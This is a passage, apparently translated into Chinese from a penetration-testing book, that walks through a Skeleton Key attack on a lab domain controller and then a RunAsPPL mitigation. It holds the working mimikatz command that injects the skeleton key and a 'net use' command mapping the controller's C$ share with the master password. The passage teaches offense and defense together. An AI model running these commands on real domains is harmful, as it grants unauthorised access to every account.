 注意

关于骨架密钥内存操作的更详细描述可以在此处找到：[`adsecurity.org/?p=1255`](https://adsecurity.org/?p=1255)。

Mimikatz 已经掌握了此攻击。以下命令会注入骨架密钥恶意软件：

```
mimikatz.exe „privilege::debug" „misc::skeleton" „exit"
```

以下展示了成功攻击域控制器的示例：

![图 7.28 – 骨架密钥恶意软件已在域控制器上部署](img/B18964_07_28.jpg)

图 7.28 – 骨架密钥恶意软件已在域控制器上部署

现在，为了确认，我们在不知道特权用户密码的情况下映射了域控制器的 `C:\` 驱动器：

```
net use Y: \\kingslanding.sevenkingdoms.local\c$ mimikatz /user:sevenkingdoms\robert.baratheon
```

磁盘成功映射：

![图 7.29 – Skeleton Key 生效](img/B18964_07_29.jpg)

图 7.29 – Skeleton Key 生效

为了部分缓解 Skeleton Key 攻击，我们通过在 `HKLM\SYSTEM\CurrentControlSet\Control\Lsa` 注册表项中创建 `DWORD` 值 `RunAsPPL` 并设置为 `1` 来将 LSASS 作为受保护进程运行。如微软所述，"*这将防止非管理员的非 PPL 进程通过打开进程函数访问或篡改 PPL 进程中的代码和数据。*"

在以下屏幕截图中，我们可以看到原始的 Skeleton Key 攻击失败了：

